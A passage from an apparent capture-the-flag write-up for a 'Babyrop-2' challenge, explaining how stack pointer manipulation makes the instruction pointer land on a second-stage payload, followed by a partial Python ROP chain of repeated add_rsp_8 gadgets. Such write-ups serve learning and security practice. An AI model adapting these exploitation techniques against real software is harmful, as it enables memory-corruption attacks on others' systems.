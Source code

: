 This occurs because print's internal calls overwrite the payload body. To overcome this, RIP should land on a specific value. To properly set the RIP value, we need to manipulate the RSP value to higher addresses.


After some tries, the RIP value successfully landed beginning of the `second_stage_payload` .

![Pasted image 20250717011046](/images/SmileyCTF/SmileyCTF-Babyrop-2/Pasted_image_20250717011046.png)

The payload shared below,

```python
second_stage_payload = flat({
    0: 0x4949494949494949,
    0x20:[
        print_addr+0x20,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
```
